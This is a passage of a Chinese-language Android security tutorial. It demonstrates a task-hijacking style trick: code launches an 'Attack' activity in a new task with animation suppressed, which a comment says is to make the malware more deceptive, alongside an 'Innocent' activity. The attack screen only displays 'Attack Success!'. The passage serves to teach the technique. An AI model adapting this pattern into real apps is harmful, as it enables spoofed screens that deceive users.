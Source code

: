 #### 2.显示布局：

如上述布局代码所示,该布局将只显示Innocent这段字符，新建一个布局,并且假设这个新建的布局为恶意活动显示的布局

**attack.xml**

```xml
<linearlayout xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:app="http://schemas.android.com/apk/res-auto"
    xmlns:tools="http://schemas.android.com/tools"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    tools:context=".MainActivity">

    <textview
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Attack Success!">

    </textview>
</linearlayout>
```

同理,该布局将只显示 Attack Success! 这段字符

#### 3.接下来新建Innocent类和Attack类

两个类分别显示activity_main和attack这两个布局

**MainActivity.java**

```java
public class MainActivity extends AppCompatActivity {
 
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        //setContentView(R.layout.activity_main);
        Intent innocent,attack;
        attack=new Intent(this,Attack.class);
        attack.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);//将attack活动放置在一个新task中
        attack.addFlags(Intent.FLAG_ACTIVITY_NO_ANIMATION);//取消过度动画,增加恶意软件迷惑性
        innocent=new Intent(this,Innocent.class);
        innocent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
        startActivities(new Intent[]{attack,innocent});//先后启动attack活动与innocent活动
        finish();
    }
}
```

**Attack.java**

```java
public class Attack extends AppCompatActivity {
    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.attack);
    }
}
```

